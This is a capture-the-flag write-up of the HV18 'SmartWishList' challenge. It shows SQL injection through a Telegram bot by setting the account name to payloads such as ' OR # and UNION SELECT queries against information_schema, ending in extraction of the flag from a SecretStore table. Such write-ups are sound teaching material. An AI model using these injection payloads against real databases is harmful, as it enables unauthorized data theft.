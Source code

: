 # Day 12: SmartWishList

Santa's being really innovative this year!

Send your wishes directly over your favorite messenger (telegram): @smartwishlist_bot

### Description

In order to participate on this challenge you had to have a Telegram account to be able to chat with the bot.

The wishlist bot supported few commands to manage your wishlist.

![about.png](files/about.png "about")

You could add a new wish, remove one or let him to list all the wishes on your list.

### Solution

This challenge was the real fun!

I started to play with those commands to figure out what was going on. At some point I had an idea to send some really long wish to break things.

> **pjslf**  
> /addwish aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  
>
> **Santa's Smart Wishlist**  
> (1406, "Data too long for column 'wish' at row 125")

Bingo! This was a proof that the bot ran on top of MySQL database - an obvious hint to SQLi. After countless unsuccessful attempts to find some working injection point in bot's commands there was the last option left. It had to be the Telegram account's name.

To prove my hypothesis I tried to break the SQL query to get a syntax error. I changed my account name to `' OR #` and requested bot to list my wishes.

> **' OR #**  
> /showwishes  
>
> **Santa's Smart Wishlist**  
> (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1")

It worked well! Now was the time to look around.

> **' UNION SELECT 'db', database() #**  
> /showwishes  
>
> **Santa's Smart Wishlist**  
> db - smartwishlist

To send longer queries I had to split them in half and use both first and last name which then got concatenated.

> **' UNION SELECT 'tbl', table_name FROM information_schema.tables WHERE table_schema = 'smartwishlist' #**  
> /showwishes  
>
> **Santa's Smart Wishlist**  
> tbl - SecretStore  
> tbl - User  
> tbl - Wish

Ha! *SecretStore* table was exactly what I was looking for.

> **' UNION SELECT 'col', column_name FROM information_schema.columns WHERE table_name = 'SecretStore' #**  
> /showwishes  
>
> **Santa's Smart Wishlist**  
> col - flag

Now I had all the information needed to simply pick up the flag from the database.

> **' UNION SELECT 'flag', flag FROM SecretStore #**  
> /showwishes  
>
> **Santa's Smart Wishlist**  
> flag - HV18-M4k3-S0m3-R34L-N1c3-W15h

Here is a conversation screenshot.

![flag.png](files/flag.png "flag")

And here is the flag.

```
HV18-M4k3-S0m3-R34L-N1c3-W15h
```
